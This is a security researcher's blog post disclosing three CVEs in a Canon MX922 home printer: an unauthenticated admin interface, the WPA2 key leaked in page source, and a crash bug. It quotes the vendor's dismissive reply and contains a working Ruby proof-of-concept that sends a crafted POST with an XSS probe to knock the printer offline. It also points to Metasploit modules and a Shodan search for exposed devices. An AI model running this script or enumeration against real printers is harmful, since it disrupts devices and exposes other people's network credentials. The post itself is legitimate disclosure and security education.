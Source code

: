 ```yaml
---
layout: post
title: "Canon, Y U NO Security?"
date: 2013-06-18T08:23:00-04:00
comments: true
categories:
 - http
 - printer
 - canon
 - security
 - hacking
---
```


{% img left /images/y-u-no-guy.jpg %}

I recently bought a new printer at home, so my wife could print coupons without manually attaching to my office printer each time (Thanks coupons.com and all the other shady sites that require spyware-like software to print coupons, and often don't support network printers). I ended up picking up a [Canon MX922](https://www.amazon.com/dp/B00AVWKUJS/ref=as_li_ss_til?tag=mattandcom-20&camp=0&creative=0&linkCode=as4&creativeASIN=B00AVWKUJS&adid=07S04SQ3X3C73H5QDS7T&). It works awesome for her, and is connected over WiFi, so any device in the house can print to it. This got me thinking though, about how secure it was.

<!-- more -->

## No Credentials For Management Interface
### CVE-2013-4613

I found the IP of the status page of my router, and browsed to it. I was greeted with this management page. 

{% img /images/printer_1.png %}

I then figured I'd look at some of the more advanced settings, so I clicked the "Advanced" link. This brought me to a control panel for the printer. I saw a bunch of information, and was surprised that I had not entered <b>any</b> credentials. I figured maybe the status page would be anonymous, but surely I'd need some password to access the management pages. But then again, I hadn't used any password when setting up the printer using the LCD.

## Disclosure of Wireless Key and SSID
### CVE-2013-4614

I eventually browsed to the "Network Settings" tab, and saw my SSID of "Wireless". Not too bad, since it's broadcast in the air.

{% img /images/printer_2.png %}

I saw that it was using WPA2, as I configured. I clicked the "Modify" button, and saw that I could change all of the wireless settings. The worst was that when I saw the "Use WPA2" radio button, I saw that there was text in the password box.

{% img /images/printer_3.png %}

Assuming that there was a junk value in there, I viewed the source. Unfortunately, what I found was that the page did indeed have my printer's WPA2 password right there.

{% img /images/printer_4.png %}

I started thinking about this. It wasn't a <i>huge</i> issue, since you'd have to already know my WPA2 key to get to the printer, right? Oh, but what about if a device behind my firewall had been compromised by a remote attacker? The attacker would be free to navigate to my printer, and grab my password. If I was like just about every other person I talk to, I probably use the same password on everything, so I don't have to remember unique passwords. That means now an attacker could potentially login to my email, my SSH server, or even other machines on my LAN. This scared me slightly. 

After a while, I started thinking that perhaps there were people that could potentially put their printers directly connected to the internet, and have these management interfaces publicly exposed to anonymous clients. I checked out the [ShodanHQ](http://www.shodanhq.com/search?q=port%3A80+KS_HTTP+1.0) (FYI, it seems also Minolta uses this server banner as well). I saw that there were nearly 15,000 at the time of this writing, so I wrote up a quick Metasploit module to enumerate the information. It is located [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/http/canon_wireless.rb). Below is sample output from a selection of hosts I got from ShodanHQ and a host that should time out, as a control sample.

{% img /images/printer_5.png %}

## Denial of Service
### CVE-2013-4615

I kept playing around with the configuration interface, and while tinkering with some inputs in [Burp](http://portswigger.net/burp/), the device stopped responding. I walked to the other room, where we keep the printer, and noticed that it was completely unresponsive. I had to power-cycle the device, to which it came back up and told me it wasn't powered down properly.

When I reported this to Canon, they asked me for more information, so I provided them the following code as a proof-of-concept.

```
#!/usr/bin/ruby

require 'net/http'
require 'uri'

print 'Enter your printer IP Address: '
input = gets.strip

printer_url = "http://#{input}"

# Make the first request, to set the IP to invalid data
post = Net::HTTP.post_form(URI.parse(printer_url + '/English/pages_MacUS/cgi_lan.cgi'),
{'OK.x' => '61', 'OK.y' => '12', 'LAN_OPT1' => '2', 'LAN_TXT1' => 'Wireless', 'LAN_OPT3' => '1', 'LAN_TXT21' => '192', 
'LAN_TXT22' => '168', 'LAN_TXT23' => '1', 'LAN_TXT24' => '114"><script>alert(\'xss\');</script>', 'LAN_TXT31' => '255',
'LAN_TXT32' => '255', 'LAN_TXT33' => '255', 'LAN_TXT34' => '0', 'LAN_TXT41' => '192', 'LAN_TXT42' => '168', 
'LAN_TXT43' => '1', 'LAN_TXT44' => '1', 'LAN_OPT2' => '4', 'LAN_OPT4' => '1', 'LAN_HID1' => '1'})

# Make the second request, to trigger the DoS
begin
get = Net::HTTP.get(URI.parse(printer_url + '/English/pages_MacUS/lan_set_content.html'))
rescue Timeout::Error
puts 'Look at your printer to see it is unresponsive.'
end
```

If you look closely, you can see that I was testing for Cross-Site-Scripting, and put HTML in the "LAN_TXT24" input box. Canon's javascript validation prevents this, but nothing stops you from manipulating the HTTP response. This is a prime example of why server-side validation is also required.

I ended up turning this into a Metasploit module as well. You can find it available [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/dos/http/canon_wireless_printer.rb). It works pretty similarly to most DoS modules:

{% img /images/printer_6.png %}

## Canon's Response

I responsibly disclosed these vulnerabilities to Canon, but they apparently don't deem them worthy of being fixed. I don't think they really "get it". Since they aren't going to fix it, I am releasing these details publicly. Below is their reply:

{% blockquote %}
Dear Mr. Andreko,

Thank you for your patience in allowing Canon to respond.  We have confirmed that the two issues you described in your May 27th e-mail can occur in certain printers such as the MX922.  However, with respect to the issue of no password by default, please note that the inkjet printers which have network functionality such as the MX922 are designed for home use which is supposed to be secured.  For this reason, and for user convenience, the default setting does not require a password.  However, if a user has a particular concern about third parties accessing the user’s home printer, the default setting can be changed to add a password.

Similarly, regarding the DoS issue, Canon believes that its printers will not have to deal with unauthorized access to the network from an external location as long as the printers are used in a secured environment.  The issue you described could only occur when unauthorized access to an unsecured network takes place from the outside.  Canon has long advised customers to ensure that their computers and printers are secured when used in a wireless LAN environment.  We will continue advising customers to use our inkjet printers in a secured network environment with a firewall.  However, even if the printer were not used in a secure environment, in the unlikely chance that this type of access occurred from outside, the printer would simply have to be unplugged and re-plugged to ensure normal operation.  In addition, if the network security settings on the printer had been changed by the external source as a result of the incident, then they would have to be changed back to the default settings along with unplugging and re-plugging the power cord to ensure normal operation.

Again, we thank you for giving Canon the opportunity to investigate these issues and to respond to your concerns.

Best regards,
Joy
Executive Response Representative
Canon Customer Relations
customer@cits.canon.com
866-886-1901, x 2130
{% endblockquote %}

I understand, these vulnerabilites aren't super high priority. They're no ms08-067. But I would still think a vendor would want to fix them. When searching ShodanHQ, I found a bunch of printers from UCLA. I can only imagine the chaos when it becomes finals-week, and all the printers on campus stop working randomly. That'd be bad PR for Canon. Who knows what else is out there. I'd personally be interested in dumping the firmware of the printer, and seeing if there's a way to get remote code execution out of a crash. I'll chalk that up to my TODO list.
